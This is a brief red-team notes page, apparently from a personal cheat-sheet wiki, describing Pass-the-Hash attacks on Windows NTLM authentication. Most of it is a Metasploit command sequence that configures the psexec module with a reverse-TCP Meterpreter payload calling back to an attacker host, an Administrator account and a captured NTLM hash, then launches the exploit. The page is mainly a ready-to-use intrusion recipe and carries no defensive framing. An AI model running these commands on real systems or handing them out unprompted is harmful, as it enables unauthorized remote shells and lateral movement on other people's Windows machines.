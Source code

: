 ```yaml
---
title: Pass-the-Hash (PtH) Attack
draft: false
tags:
  - redteam
  - windows
  - passthehash
---
```

# Pass-the-Hash (PtH) Attacks

Once you have dumped (or otherwise obtained) Windows NTLM hashes, you can use these in an attack known as Pass-the-Hash (PtH). It abuses the NTLM authentication protocol to authenticate as the user with just knowing the hash.

```
meterpreter > use exploit/windows/smb/psexec
meterpreter > set PAYLOAD windows/meterpreter/reverse_tcp
meterpreter > set LHOST 192.168.1.1
meterpreter > set LPORT 8888
meterpreter > set RHOST 10.10.10.10
meterpreter > set SMBUser Administrator
meterpreter > set SMBPass aad3b435b51404eeaad3b435b51404ee:7d3f11711c610f013c06959a5e98f2fd
exploit
```